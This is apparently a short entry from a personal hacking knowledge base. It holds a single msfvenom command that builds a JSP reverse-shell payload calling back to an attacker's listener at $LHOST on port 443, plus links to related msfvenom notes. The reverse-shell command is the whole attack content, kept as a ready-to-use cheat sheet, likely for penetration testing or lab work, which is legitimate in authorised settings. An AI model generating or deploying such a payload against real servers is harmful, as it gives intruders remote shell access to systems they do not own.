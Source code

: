 # MSFVENOM Java Server Pages (.jsp)
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$LHOST LPORT=443 -f raw > shell.jsp
```

` zet/20221003150760/README.md `

# Related

- [20221014185901](/zet/20221014185901/README.md) kb file named kb/hacking/commands/msfvenom-commands.md
- [20221003150777](/zet/20221003150777/README.md) MSFVENOM
- [20221003150759](/zet/20221003150759/README.md) MSFVENOM Java Server Pages (.jsp) As .war
- ~/kb/hacking/commands/msfvenom-commands.md

Tags:

    #command #hacking #msfvenom 
